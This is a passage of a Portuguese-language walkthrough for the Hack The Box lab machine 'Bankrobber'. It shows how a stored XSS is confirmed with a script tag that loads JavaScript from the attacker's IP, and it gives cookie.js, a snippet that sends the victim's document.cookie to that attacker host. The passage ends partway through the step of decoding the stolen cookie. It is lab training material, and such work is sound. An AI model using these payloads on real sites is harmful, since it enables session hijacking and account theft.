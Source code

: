 Já que, aparentemente, esta máquina está a dizer que um administrator irá abrir a transação dentro de instantes, poderá significar ques existe alguma tarefa automática que simula um administrador a abrir a nossa mensagem. Vamos primeiro tratar de identificar se existe uma falha conhecida como XSS (Cross-site scripting), introduzindo no campo de comentário o seguinte código:

```html
<script src="http://10.10.14.9/test.js"></script>
```

Esse código faz com que, se existir a tal vulnerabilidade, o browser por onde o administrador simulado abre a transação, execute esse código javascript, que por sua vez tenta adquirir um outro ficheiro denominado test.js localizado em http://10.10.14.9/. É claro que para verificar se o código é executado, é necessário disponibilizar este serviço http:

```bash
sudo python3 -m http.server 80
#>  10.10.10.154 - - [13/Sep/2021 12:12:58] code 404, message File not found
#>  10.10.10.154 - - [13/Sep/2021 12:12:58] "GET /test.js HTTP/1.1" 404 -
```

Aí está!! Um tentativa de GET. Confirma-se o XSS. Sendo assim, podemos criar um ficheiro.js para que, quando o browser do administrador que ler a transação fizer o download de o novo ficheiro.js malicioso, esse ficheiro será também executado pelo browser. **NOTA: É importante referir que o browser não consegue executar código do systema. O seu escopo é apenas e só no browser**

> ficheiro: cookie.js

```javascript
var request = new XMLHttpRequest()
request.open('GET', 'http://10.10.14.9/test.js?cookie=' + document.cookie, true)
request.send()
```

![Cookie hijack](Assets\HTB-Windows-Insane-Bankrobber\cookie_hijack.png)

Na imagem, é possível ver o cookie de um usuário (supostamente administrador pelo que o alerta nos informou). Esse cookie está "encoded". Primeiro podemos reverter o "urlencoded" com ajuda do php em modo interativo. O resultado é o seguinte:
